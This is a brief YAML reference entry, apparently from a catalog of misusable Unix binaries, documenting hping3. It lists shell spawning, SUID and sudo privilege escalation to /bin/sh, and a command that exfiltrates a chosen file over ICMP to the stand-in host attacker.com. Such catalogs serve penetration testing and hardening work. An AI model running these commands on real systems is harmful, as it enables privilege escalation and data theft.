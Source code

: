 ```yaml
---
functions:
  shell:
    - code: |
        hping3
        /bin/sh
  suid:
    - code: |
        ./hping3
        /bin/sh -p
  sudo:
    - code: |
        sudo hping3
        /bin/sh
    - description: |
        The file is continuously sent, adjust the `--count` parameter or kill the sender when done. Receive on the attacker box with:

        ```
        sudo hping3 --icmp --listen xxx --dump
        ```
      code: |
        RHOST=attacker.com
        LFILE=file_to_read
        sudo hping3 "$RHOST" --icmp --data 500 --sign xxx --file "$LFILE"
---
```

